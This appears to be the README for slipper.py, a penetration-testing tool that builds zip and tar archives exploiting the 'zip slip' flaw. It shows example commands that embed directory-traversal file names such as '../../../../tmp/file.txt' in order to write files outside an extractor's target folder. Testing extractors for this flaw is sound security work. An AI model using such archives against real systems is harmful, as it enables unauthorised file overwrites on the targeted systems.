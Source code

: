 
# Tool to build zip and tar slip payloads 

Build zip and tar slip payloads (directory traversals for file writes). Details in the [snyk github](https://github.com/snyk/zip-slip-vulnerability) for known vulnerable items.


```
usage: slipper.py [-h] [-p filename contents] [-z ZIP_FILENAME]
                  [-t TAR_FILENAME]

optional arguments:
  -h, --help            show this help message and exit
  -p filename contents, --payload filename contents
                        add filename with contents to archive
  -z ZIP_FILENAME, --zip_filename ZIP_FILENAME
                        create a zip with given name
  -t TAR_FILENAME, --tar_filename TAR_FILENAME
                        create a tar with given name
```

Note that `-p` can be repeated to add multiple `filename, content` pairs to each archive type.


## Zip 

Supply the filename with the `-z` flag:

`python slipper.py -z foo.zip -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' -p 'required.xml' '...'`

## Zip append

Supply the filename with the `-z` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.zip -z tampered.zip -p 'new/file.txt' 'content'
```

## Tar 

Supply the filename with the `-t` flag:

`python slipper.py -t some.tar -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' `

## Tar append

Supply the filename with the `-t` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.tar -t tampered.tar -p 'new/file.txt' 'content'
```
